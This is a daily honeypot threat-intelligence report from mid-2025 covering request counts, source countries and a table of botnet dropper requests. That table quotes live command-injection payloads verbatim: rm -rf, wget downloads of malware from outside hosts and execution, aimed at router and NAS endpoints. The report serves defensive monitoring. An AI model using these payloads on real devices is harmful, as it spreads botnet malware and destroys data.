 ```yaml
---
title: "Report: 2025-07-30 "
date: 2025-07-30
desciption: "Report: 2025-07-30" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-30 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 7 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 1 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 438 requests were recorded during the day, originating from 7 different countries, with a peak of 99 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                      |
|:---------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.219.194.246  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                         |
| 8.219.6.61     | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                         |
| 8.219.58.39    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                         |
| 87.121.84.132  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%24%28wget%20-qO-%20http%3A%2F%2F83.252.42.112%2Frondo.zqq.sh%7Csh%3B%29 HTTP/1.1                                                                                                                                       |
| 120.39.222.178 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                         |
| 8.213.136.165  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                         |
| 45.153.34.225  | GET /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Bpkill%20-9%20bin.arm7%3Brm%20-rf%20build.armv7l%3Bwget%20http%3A%2F%2F107.189.27.205%2Fns%2Fbuild.armv7l%3Bchmod%20777%20build.armv7l%3B.%2Fbuild.armv7l%20nasdevice.armv7l%3Brm%20-rf%20build.armv7l HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|    |   number_of_occurence | request                                                |
|---:|----------------------:|:-------------------------------------------------------|
|  9 |                     4 | POST /cgi-bin/luci/;stok=/locale?form=country HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                    99 | US                 |
|  1 |                    90 | VN                 |
|  2 |                    62 | GB                 |
|  3 |                    31 | NL                 |
|  4 |                    26 | FR                 |
|  5 |                    17 | BG                 |
|  6 |                    17 | PL                 |
|  7 |                    16 | SG                 |
|  8 |                    12 | CH                 |
|  9 |                    10 | DE                 |
| 10 |                     7 | HK                 |
| 11 |                     7 | IN                 |
| 12 |                     5 | SC                 |
| 13 |                     5 | TH                 |
| 14 |                     5 | CA                 |
| 15 |                     4 | KR                 |
| 16 |                     4 | LT                 |
| 17 |                     4 | RU                 |
| 18 |                     4 | CN                 |
| 19 |                     3 | MU                 |
| 20 |                     3 | ZA                 |
| 21 |                     2 | BE                 |
| 22 |                     2 | KZ                 |
| 23 |                     1 | ID                 |
| 24 |                     1 | ES                 |
| 25 |                     1 | PT                 |
